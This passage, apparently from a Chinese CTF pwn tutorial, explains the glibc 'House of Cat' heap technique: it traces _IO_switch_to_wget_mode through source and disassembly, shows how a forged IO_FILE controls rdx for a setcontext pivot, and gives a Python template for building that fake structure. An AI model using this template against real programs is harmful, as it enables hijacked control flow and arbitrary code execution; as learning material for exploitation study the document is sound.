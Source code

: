 `_IO_switch_to_wget_mode`如下：

```c
int _IO_switch_to_wget_mode (FILE *fp)
{
  if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF) // 需要走到这里
      return EOF;
    // .....
}
```

如果要利用`_IO_WOVERFLOW`，我们将其设置为`system`或者`one_gadget`，调用到这里就可以`get shell`。不过如果遇到了**开启沙箱**的情况，这种方法就不可行了，我们就要考虑其他方式。

先看看`_IO_switch_to_wget_mode`调用`_IO_WOVERFLOW`的汇编代码：

```asm
0x7f4cae745d34 <_IO_switch_to_wget_mode+4>     mov    rax, qword ptr [rdi + 0xa0] 
;rdi==fp
;rax=fp+0xa0==wide_data
0x7f4cae745d3f <_IO_switch_to_wget_mode+15>    mov    rdx, qword ptr [rax + 0x20]
;rdx=wide_data->_IO_write_ptr
0x7f4cae745d49 <_IO_switch_to_wget_mode+25>    mov    rax, qword ptr [rax + 0xe0] ;rax=wide_data+0xe0==wide_data->vtable
0x7f4cae745d55 <_IO_switch_to_wget_mode+37>    call   qword ptr [rax + 0x18] 
;call wide_data->vtable+0x18==_IO_WOVERFLOW
```

可以看到这个过程通过将`fp`传入寄存器`rdi`，并通过对寄存器`rdi`进行操作，从中取出`wide_data中的_IO_write_ptr`和`wide_data中的vtable`，最后调用`vtable中的_IO_WOVERFLOW`。

可以看到`wide_data中的_IO_write_ptr`被放入`rdx`，`wide_data中的vtable`被放入`rax`，通过` call   qword ptr [rax + 0x18] `调用`_IO_WOVERFLOW`，而这个`vtable`也是通过`rdi`的偏移再间址访问再偏移取得的。由于`IO_FILE`结构已经被我们劫持，因此寄存器`rdi`中的值是我们伪造的`IO_FILE`，是可以被我们所控制的，因此`rdx`和`rax`都是可以被我们控制的，所以**除了可以控制`rax`为伪造的`_IO_WOVERFLOW`之外，我们还可以控制寄存器`rdx`**。

这样我们就可以**利用`setcontext`来控制程序流程**了，后面无论是走`ROP的orw`还是走`shellcode的orw`都可以得到flag了。

`House of Cat`的模板如下：（具体情况还需要调试修改）

```py
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=伪造rdx的值 
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10 or ...
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr,wide_data->vtable
```

### House of Kiwi

https://www.anquanke.com/post/id/235598
